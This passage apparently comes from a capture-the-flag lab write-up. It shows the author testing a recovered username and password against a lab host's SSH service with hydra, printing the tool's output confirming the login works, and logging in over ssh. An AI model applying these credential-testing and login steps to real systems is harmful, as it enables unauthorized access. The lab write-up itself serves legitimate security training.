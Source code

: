 > `marcus:funkymonkey`
{: .prompt-info }

## ssh access
Check if we can login with these credentials via `ssh`
```bash
$ hydra -I -V -l marcus -p funkymonkey 10.10.11.211 ssh                                                                                                                                                
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-06 12:21:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://10.10.11.211:22/
[ATTEMPT] target 10.10.11.211 - login "marcus" - pass "funkymonkey" - 1 of 1 [child 0] (0/0)
[22][ssh] host: 10.10.11.211   login: marcus   password: funkymonkey
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-06 12:21:07
```

> Yes the creds work
{: .prompt-info }

```bash
$ ssh marcus@10.10.11.211
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 06 May 2023 10:21:38 AM UTC

  System load:                      0.0
  Usage of /:                       63.2% of 6.73GB
  Memory usage:                     25%
  Swap usage:                       0%
  Processes:                        243
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:d295


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


```
